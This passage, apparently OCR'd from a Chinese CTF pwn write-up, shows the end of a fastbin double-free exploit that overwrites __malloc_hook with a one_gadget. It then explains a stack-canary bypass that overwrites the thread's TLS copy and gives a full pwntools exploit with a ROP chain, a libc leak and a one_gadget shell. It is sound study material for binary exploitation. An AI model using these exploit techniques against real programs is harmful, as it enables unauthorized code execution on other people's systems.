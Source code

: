     delete(3)
    					#fastbin:2->3
    delete(2)
    #gdb.attach(p)
    edit(5,p64(malloc_hook-0x10-3)[0:6]) #2->mlhk
    #edit(5,p64(libc.symbols['free'])[0:6])
    add(0x60,'/bin/sh\x00'+'a'*0x58)#2contentchanged


    add(0x60,'a'*0x3+p64(one_gadget))#change malloc hook to onegadget
    #add(0x60,p64(system))
    delete(2)#doublefree call error->mallocprint->mallochook->onegadget->shell
    delete(5)
    
    p.interactive()

这里需要注意的是，我们在利用fd指针寻找伪造堆块时，要保证堆块的头部信息也就是size字段要与申请的大小相同，在malloc附近由于未初始化都是0，借助上一个地址的信息我们可以得到我们需要的大小，也就是说我们修改的地址是在malloc_hook - 0x10 -3的位置（可以自己手动调试），libc的版本不同的话我们构造的head大小也不同。
同样需要提及的一点是onegadget需要一些条件的满足，我们需要逐个尝试才能保证其准确性。

***5.canary***
程序开了canary和nx
这道题主要就是考察如何泄露或者改写canary
归根结底就是怎么在内存里面找到canary

    pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, 0LL);
程序在执行时创建了一个线程
创建线程时会把tls保存到栈中，并且canary是在最前边，这样我们就可以将程序返回时canary的值和原本的canaryde值覆盖使其相等，就可以绕过检查
查看canary的方式就是在检查canary的汇编代码地址附近下断点，这样可以在栈里面看到canary的值，而后在内存里查找与其相同的值，将两个值得地址减一下就得到偏移了
exp：

    from pwn import *
    import os
    context.log_level = 'debug'
    #env = {'LD_PRELOAD': os.path.join(os.getcwd(),'./libc.so.6')}#-56d992a0342a67a887b8dcaae381d2cc51205253')}
    #io = remote('202.112.51.184' ,19003)
    io = process('./bs')
    elf = ELF('bs')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    libc = ELF('libc.so.6')
    main=0x4009e7
    poprdi=0x400c03
    poprsi=0x400c01
    read=0x4007e0
    atoigot=0x601ff0
    putsgot=0x601fb0
    putplt=0x4007c0
    buf=0x602f00
    leave=0x400955
    p1=p64(poprdi)+p64(putsgot)+p64(putplt)
    p2=p64(poprdi)+p64(0)+p64(poprsi)+p64(buf+0x8)+p64(0)+p64(read)+p64(leave)
    payload=p1+p2
    io.recvuntil("How many bytes do you want to send?")
    io.sendline(str(6128))
    log.success(hex(libc.symbols['puts']))
    io.send("\x00"*4112+p64(buf)+payload+"\x00"*(0x17f0-4120-len(payload)))
    io.recvuntil("It's time to say goodbye.\n")
    libbase=u64(io.recv()[:6]+"\x00\x00")-0x6f690
    print hex(libbase)
    one = 0xf02a4 + libbase
    gdb.attach(io)
    raw_input()
    io.sendline(p64(one))
    io.interactive()
